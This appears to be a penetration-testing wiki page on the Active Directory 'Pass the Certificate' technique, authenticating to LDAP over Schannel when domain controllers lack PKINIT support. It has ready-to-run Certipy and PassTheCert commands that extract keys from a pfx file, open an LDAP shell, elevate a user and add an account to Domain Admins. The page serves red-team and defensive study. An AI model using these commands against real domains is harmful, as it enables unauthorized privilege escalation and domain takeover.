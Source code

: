 # Pass the Certificate

{% hint style="warning" %}
This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by [@\_nwodtuhs](https://twitter.com/\_nwodtuhs/) in his Twitter [thread on AD CS and PKINIT](https://twitter.com/\_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.
{% endhint %}

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

{% hint style="success" %}
* Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
* Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.

```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
```
{% endtab %}

{% tab title="Windows" %}
Pass the cert technique can be done with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html" %}

[Certified Pre-Owned (pdf)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d" %}
